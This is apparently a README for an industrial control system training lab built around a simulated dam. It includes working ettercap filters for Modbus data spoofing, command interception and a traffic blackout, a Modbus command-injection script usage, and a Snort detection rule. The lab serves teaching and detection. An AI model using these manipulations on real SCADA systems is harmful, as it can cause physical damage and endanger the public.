


# Small-scale Industrial Control System (ICS) lab

## Introduction

This is a lab to demonstrate potential OT threats and threat detection, in the context of a simplified dam.

Under normal conditions, water will be pumped upstream. When the upstream water level is too high, the pump will turn off and the gate will open, releasing water downstream. When the upstream water level is too low, the pump will turn on and the gate will close. This process repeats itself.

Three things will be tracked – the upstream water level, the pump (on/off), and the gate (open/closed). The pump and gate can be controlled by the SCADA. To communicate these values, two protocols are used – Modbus (unencrypted and unauthenticated) and OPC UA (encrypted and authenticated). 

OT attacks are used to show how the dam can be forced to deviate from normal behaviour, as well as how to detect these threats. 

The lab consists of multiple VMs (SCADA, gateway, simulation, firewalls, attacker). The VMs can also be interfaced with a real life model, which is referenced as an example below.

## Architecture


### Simulation

The simulation VM is a modbus server for a simulated dam, running [`simulation.py`](simulation/simulation.py). 

There are 3 modbus values:
- Coil address 0: pump status (1 = on, 0 = off), from upstream to downstream
- Coil address 1: gate status (1 = open, 0 = closed)
- Input Register address 0: upstream water level

### SCADA 


The SCADA VM uses [FUXA](https://github.com/frangoteam/FUXA), which can be accessed at http://192.168.60.10:1881/

A user can send commands to open/close the gate and turn on/off the pump, as well as visualise the upstream water level of the dam. There are 2 tabs which use different protocols to communicate: Modbus or OPC UA. They were selected to demonstrate the difference in security.

### Gateway

The gateway VM consists of a script [`gateway.py`](gateway/gateway.py) running three components: a modbus client with the PLC, a modbus server with the SCADA, and an OPC UA server with the SCADA.

The gateway converts modbus data from the PLC to OPC UA, while also hosting a modbus server themselves, to communicate with the SCADA. The data is synchronised across all the modbus and OPC UA servers. 

There are two levels of security for the OPC UA server: Basic256Sha256_SignAndEncrypt and None.

### Attacker

This is a Kali Linux VM, placed in the same subnet as the SCADA (supervisory network). There are several attacks available to execute, as explained in more detail below:

- Command Injection
- MiTM (data spoofing, command interception, blackout)

### Firewalls

There are two [pfsense](https://www.pfsense.org/) firewalls. The first firewall includes Snort, of which we will be using to detect the aforementioned attacks. 

### ESP32

The hardware counterpart to the simulation VM.

## Installation

### VM settings

1. Set up 3 [Host-only Ethernet adapters](https://www.virtualbox.org/manual/ch06.html#network_hostonly)
    - One in the 192.168.60.0/24 subnet, with IP address 192.168.60.1
    - One in the 192.168.65.0/24 subnet, with IP address 192.168.65.1
    - One in the 192.168.75.0/24 subnet, with IP address 192.168.75.1
    - Whether DHCP is enabled or disabled is largely unimportant

_In VirtualBox, go to Tools > Networking. This is how it should look like. The names of your adapters are likely different._


2. Configure the network settings of each VM, selecting the correct Host-only Ethernet adapter.
    - <ins>SCADA Adapter 1</ins>: 192.168.60.0/24
    - <ins>Gateway Adapter 1</ins>: 192.168.65.0/24
    - <ins>Simulation Adapter 1</ins>: 192.168.75.0/24
    - <ins>Firewall 1 Adapter 1</ins>: 192.168.60.0/24
    - <ins>Firewall 1 Adapter 2</ins>: 192.168.65.0/24
    - <ins>Firewall 1 Adapter 3</ins>: NAT
    - <ins>Firewall 2 Adapter 1</ins>: 192.168.65.0/24
    - <ins>Firewall 2 Adapter 1</ins>: 192.168.75.0/24 (if using simulator) OR bridged adapter (select your ethernet port, if using the in person setup)
    - <ins>Attacker Adapter 1</ins>: 192.168.60.0/24
    - <ins>Attacker Adapter 2</ins>: NAT


VM Credentials:
- For each VM (except for attacker VM), username: `user`, password: `password`
- For attacker VM, username: `kali`, password: `kali`
- For pfsense, username: `admin`, password: `pfsense`
- For gateway's OPC UA credentials, username: `fuxa`, password: `fuxa`


### Gateway/SCADA/Simulation setup

Each VM will automatically run a systemd service: `gateway`, `scada`, or `simulation`.

<details>

<summary>Commands for debugging systemd services</summary>

```sh
# see the logs
journalctl -u <name> -b -e -f

# load any changes to the configuration file in /lib/systemd/system/
sudo systemctl daemon-reload

# restart the service
sudo systemctl restart <name>
```
</details>


## Attacks

### Modbus Command Injection

Due to modbus' lack of authentication, we are able to directly inject commands to the gateway.

With the script [`inject.py`](attacker/inject.py), you can force the modbus value to be our desired value.

```bash
# turn on pump and close gate
../.venv/bin/python3 inject.py --pump --no-gate
```

```
usage: inject.py [-h] [--pump | --no-pump] [--gate | --no-gate]

options:
  -h, --help         show this help message and exit
  --pump, --no-pump  Force the pump to turn on/off (default off)
  --gate, --no-gate  Force the gate to be opened/closed (default closed)
```

#### Detection

Use an IDS/IPS like Snort to detect when an unauthorised IP address is trying to communicate with the gateway, and drop the packet.

> [!NOTE]
> By default, Snort is disabled in the VM.

```
drop tcp !192.168.60.10 any -> any 502 (msg:"Unauthorised Modbus request"; sid:1;)
```


### MiTM

Due to the unencrypted nature of modbus, we are able to read data sent back and forth and execute MiTM. We will be using ettercap to execute ARP spoofing.

#### Using Ettercap

1. Open ettercap GUI

```sh
sudo ettercap -G
```

2. Begin sniffing



3. Open Host List and Scan for hosts



4. Add 192.168.60.10 and 192.168.60.100 as targets
- It doesn't matter which IP address is added to which target, just make sure each target has only one IP address


5. Load a filter to run (see below)


#### Filter: Modbus Data Spoofing attack

We can alter the modbus values communicated from the gateway to the SCADA.

In this specific filter, we spoof the water level to be 0, and flip the value of the pump and gate (to be opposite of what it actually is).

```
if (ip.proto == TCP && tcp.dst == 502) {
  if (ip.src == '192.168.60.10' && ip.dst == '192.168.65.10') {
    msg("Found Modbus packet from scada to gateway");
  }
}

if (ip.proto == TCP && tcp.src == 502) {
  if (ip.src == '192.168.65.10' && ip.dst == '192.168.60.10') {
    msg("Found Modbus packet from gateway to scada");
    
    # edit the water level to be 0
    if (search(DATA.data, "\x00\x05\x01\x04\x02")) {
      msg("found modbus read input registers reply packet");
      #log(DATA.data, "/tmp/logfile.log");
      DATA.data + 9 = 0x00;
      DATA.data + 10 = 0x00;
    }
    
    # edit coils value to be opposite to what they actually are
    if (search(DATA.data, "\x00\x04\x01\x01\x01")) {
      msg("found modbus read coils reply packet");
      if (DATA.data+9 == 0x00) {
        DATA.data + 9 = 0x03;
      }
      else {
        if (DATA.data+9 == 0x03) {
          DATA.data + 9 = 0x00;
        }
      }
      if (DATA.data+9 == 0x01) {
        DATA.data + 9 = 0x02;
      }
      else {
        if (DATA.data+9 == 0x02) {
          DATA.data + 9 = 0x01;
        }
      }      
    }
  }
}
```

#### Filter: Modbus Command Interception attack

We can also intercept commands sent from the SCADA to the gateway.

This filter overwrites any write coil commands from the SCADA to the gateway, and changes it to the opposite of what was requested.

```
if (ip.proto == TCP && tcp.dst == 502) {
  if (ip.src == '192.168.60.10' && ip.dst == '192.168.65.10') {
    msg("Found Modbus packet from scada to gateway");
    
    # edit coils write request value to be opposite to what was requested
    if (search(DATA.data, "\x00\x06\x01\x05")) {
      msg("found modbus write coil packet");
      if (DATA.data+10 == 0x00) {
        DATA.data+10 = 0xff;
      }
      else {
        if (DATA.data+10 == 0xff) {
          DATA.data+10 = 0x00;
        }
      }      
    }
  }
}

if (ip.proto == TCP && tcp.src == 502) {
  if (ip.src == '192.168.65.10' && ip.dst == '192.168.60.10') {
    msg("Found Modbus packet from gateway to scada"); 
  }
}
```

#### Filter: Blackout attack

We can also prevent any communications between the SCADA and gateway. When this is run, the SCADA is unable to view new data.

Unlike other attacks, this can be done on both Modbus and OPC UA.

```attacker/filters/blackout.filter
if (ip.src == '192.168.60.10' && ip.dst == '192.168.65.10') {
  if (ip.proto == TCP && tcp.dst == 502) {
    # drop modbus packets from scada to gateway
    msg("Dropped Modbus packet from scada to gateway");
    drop();
  }
  if (ip.proto == TCP && tcp.dst == 4840) {
    # drop OPC UA packets from scada to gateway
    msg("Dropped OPC UA packet from scada to gateway");
    drop();
  }
}

if (ip.dst == '192.168.60.10' && ip.src == '192.168.65.10') {
  if (ip.proto == TCP && tcp.src == 502) {
    # drop modbus packets from gateway to scada
    msg("Dropped Modbus packet from gateway to scada");
    drop();
  }
  if (ip.proto == TCP && tcp.src == 4840) {
    # drop OPC UA packets from gateway to scada
    msg("Dropped OPC UA packet from gateway to scada");
    drop();
  }
}
```

#### Detection

Use an IDS/IPS like Snort to detect ARP spoofing. 

